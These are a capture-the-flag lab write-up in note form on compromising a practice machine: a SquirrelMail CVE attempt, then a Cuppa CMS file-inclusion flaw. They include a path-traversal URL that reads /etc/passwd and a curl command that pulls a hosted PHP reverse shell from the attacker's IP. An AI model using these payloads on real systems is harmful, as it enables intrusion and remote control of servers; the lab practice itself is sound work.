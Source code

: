 
### /squirrelmail
SquirrelMail version 1.4.23 CVE 2017-7692 

https://legalhackers.com/videos/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html

https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html

but we cant get a rev shell 

![[Pasted image 20210528155936.png]]

so fuzzing the hidden directory

### /45kra24zxs28v3yd/administrator/

from the http://10.10.82.251/45kra24zxs28v3yd/administrator/

cuppa cms 
https://www.exploit-db.com/exploits/25971

we can use this 
http://10.10.82.251/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

![[Pasted image 20210528160806.png]]

exploit 

modify a php reverse shell and host it

```
curl http://10.10.82.251/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.17.4.208/rev-shell-lin.php?

```
and listen on listener

![[Pasted image 20210528161309.png]]

![[Pasted image 20210528161414.png]]

user === 7ce5c2109a40f958099283600a9ae807